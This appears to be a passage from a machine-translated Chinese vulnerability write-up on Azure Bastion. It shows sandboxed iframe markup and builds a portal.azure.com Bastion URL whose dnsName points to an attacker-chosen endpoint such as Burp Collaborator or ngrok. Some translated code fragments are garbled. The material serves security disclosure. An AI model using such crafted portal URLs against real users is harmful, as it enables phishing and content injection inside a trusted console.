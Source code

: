 我们可以从上面的屏幕截图中看到，两个端点（BastionHostIFrame.html  
和我们的堡垒端点）都设置了不同的沙箱属性。  
  
BastionHostIFrame.html  
框架：  
```
<iframe class=”fxs-part-frame” sandbox=”allow-same-origin allow-scripts allow-popups allow-modals allow-
forms allow-downloads” allow=”microphone *; 加密媒体 *；剪贴板读取；”
role=”presentation” src=”<https://hybridnetworking.hosting.portal.azure.net/hybridnetworking
/>Content/23.4.0.11-230406-2239/BastionHost/BastionHostIFrame.html?clientOptimizations
=undefined&l=en。zh-cn&trustedAuthority=https%3A%2F%2Fportal.azure.com&shellVersion=
undefined#fb4af48503d940fcb1766b787b06ac42″ allowfullscreen=”true”></iframe>
```  
  
我们的终点：  
```
<iframe class=”bastion-host-iframe” id=”bastion-host” role=”document” sandbox=”allow-scripts allow-same-origin allow-popups” frameborder=”0″ src=”https:// [堡垒主机]?trustedAuthority=https%3A%2F%2Fhybridnetworking.hosting.portal.azure.net” aria-label=”Console”></iframe>

```  
  
我们注意到使用带有属性的沙盒 iframeallow-scripts  
可能allow-same-origin  
会带来安全风险。  
这些属性实质上使任何脚本都可以在 iframe 中执行，并且在某些情况下，脚本可能具有修改沙盒属性本身的能力，这可能导致称为 DOM Clobbering vector 的漏洞。  
  
这意味着整个沙箱环境可能会受到损害，从而破坏其预期的安全措施。  
在使用沙盒 iframe 时，了解这些风险并采取适当的预防措施以确保 Web 应用程序的整体安全性非常重要。  
  
我们考虑过尝试使用 DOM Clobbering 来逃离沙箱，但没有成功。  
此外，我们的沙箱未设置允许模态属性，这将不允许我们执行任何提示或警报（暂时 (:)）。  
  
继续，我们决定检查连接字符串   
  
https://portal.azure.com/#view/Microsoft_Azure_HybridNetworking/BastionHostFrame/resourceId/   
%2Fsubscriptions%2F12345678-1234-1234-1234-123456789012%2FresourceGroups%2FOrca-Research%2Fproviders%2FMicrosoft.Network%2Fbh-hostConnect%2F127.0.0.1  
/dnsName/  
[CUSTOM_ENDPOINT_HERE]  
/   
newTab~/false  
/username/test/hostname/127.0.0.1/password/1/privateKey~/null/passphrase~ /null/protocol/rdp/port/3389/vnetId//bastionId/%2Fsubscriptions%2F12345678-1234-1234-1234-123456789012%2FresourceGroups%2FOrca-Research%2Fproviders%2FMicrosoft.Network%2FbastionHosts%2Forca-bastion-poc/keyboardLanguage/en-us-qwerty  
  
红色——我们的自定义端点，可以是任何端点（Burp Collaborator、ngrok 等、IP 等）。   
绿色——可以完全删除，连接仍然会通过。  
橙色 - 新标签选项（假/真）  
  
所以最终我们只剩下：  
  
https://portal.azure.com/#view/Microsoft_Azure_HybridNetworking/BastionHostFrame/resourceId//dnsName/[CUSTOM_ENDPOINT_HERE]/newTab~/false  
  